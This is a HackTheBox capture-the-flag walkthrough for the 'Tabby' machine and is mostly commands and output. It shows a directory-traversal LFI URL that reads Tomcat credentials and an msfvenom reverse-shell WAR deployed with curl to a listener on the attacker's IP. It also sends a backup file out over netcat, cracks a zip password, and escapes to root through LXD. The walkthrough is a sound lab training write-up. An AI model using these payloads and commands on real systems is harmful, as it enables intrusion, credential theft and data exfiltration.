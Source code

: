 ```yaml
---
layout: post
title:  "Tabby HackTheBox Walkthrough"
date:   2020-09-27 15:00:00 +0530
categories: HackTheBox CTF
---
```

Tabby is a machine in which I used Local File Inclusion to get tomcat credintials to obtain shell access and then used enumeration and lxd to get root Access.

## Recon
As always, I started scanning with Nmap

```
kali@kali:~$ nmap -sC -sV 10.10.10.194
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-30 08:01 EDT
Nmap scan report for megahosting.htb (10.10.10.194)
Host is up (0.16s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.32 seconds


```
Two HTTP Services one of them is tomcat and a ssh service .

## Exploitation

First I opened the 80 service and inspected element and found this suspeciouc url

```
http://megahosting.htb/news.php?file=statement
```
I tested for 
1. SQL Injection (Failed)
2. Local File Inculsion (Succeded)

So I tried 
1. Log Poisoning (Failed)
2. Accessing Procs (Failed)
3. Accessing SSH id Files (Failed)
4. Accessing Tomcat Cred Files (Succeded)

The tomcat cred files required me to do some guessing as it's not in the default path, I found it in this path

```
view-source:http://megahosting.htb/news.php?file=../../../../../../../../../../../../../../../../../../../../../../../../../../../usr/share/tomcat9/etc/tomcat-users.xml
```
![Username](/assets/machines/hackthebox/tabby/1.png)

Imedittly I searched for ways to deploy war shell. and found one using msfvenom and curl

```
root@kali:/home/kali/Desktop/tabby# msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.110 LPORT=9999 -f war > shell.war
root@kali:/home/kali/Desktop/tabby# curl --user 'tomcat:$3cureP4s5w0rd123!' --upload-file shell.war "http://10.10.10.194:8080/manager/text/deploy?path=/shell.war"
root@kali:/home/kali# nc -lvnp 9999
listening on [any] 9999 ...
```

## From Tomcat to Ash

And got the shell. After Enumeration I found a backup file in /var/www/html/files/16162020_backup.zip. So I downloaded it using nc
### Target
```
nc -w 3 10.10.14.110 1234 < 16162020_backup.zip
```

### Hacker
```
nc -l -p 1234 > file.zip
```

Then I used fcrackzip to crack the file and found the password

### Hacker
```
root@kali:/home/kali/Desktop/tabby2# fcrackzip -D -p /usr/share/wordlists/rockyou.txt file.zip 
possible pw found: admin@it ()                                                                                    
```

### Target
```
tomcat@tabby:/home$ su ash                                                                                        
su ash                                                                                                            
Password: admin@it                                                                                                
                                                                                                                  
ash@tabby:/home$ id                                                                                               
id                                                                                                                
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)                        
```

and admin@it was the password for ash.

## From Ash to Root
After the id command I found an Intersteing thing (lxd). I searched for privlige Esuclation using lxd and found one

### Hacker
```
root@kali:/home/kali/Desktop/tabby2# git clone  https://github.com/saghul/lxd-alpine-builder.git
Cloning into 'lxd-alpine-builder'...
.....
root@kali:/home/kali/Desktop/tabby2/lxd-alpine-builder# ./build-alpine
root@kali:/home/kali/Desktop/tabby2/lxd-alpine-builder# python -m SimpleHTTPServer 5555
Serving HTTP on 0.0.0.0 port 5555 ...
10.10.10.194 - - [30/Sep/2020 08:19:08] "GET /alpine-v3.12-x86_64-20200930_0818.tar.gz HTTP/1.1" 200 -
                                                                   
```
### Target

```
ash@tabby:/home$ cd ash
cd ash
ash@tabby:~$ wget http://10.10.14.110:5555/alpine-v3.12-x86_64-20200930_0818.tar.gz
ash@tabby:~$ lxc image import alpine-v3.12-x86_64-20200930_0818.tar.gz --alias myimage
ash@tabby:~$ lxd init
ash@tabby:~$ lxc init myimage ignite -c security.privileged=true
ash@tabby:~$ lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
ash@tabby:~$ lxc start ignite
ash@tabby:~$ lxc exec ignite /bin/sh
~ # ^[[58;5Rwhoami
whoami
root
cd /mnt/root
/mnt/root # ^[[58;13Rcd root
cd root
/mnt/root/root # ^[[58;18Rls
ls
root.txt  snap
/mnt/root/root # ^[[58;18Rcat root.txt
cat root.txt
eb940715ff82f9ec2d6858187aa8b28d

```
and voila here is the root privilege!





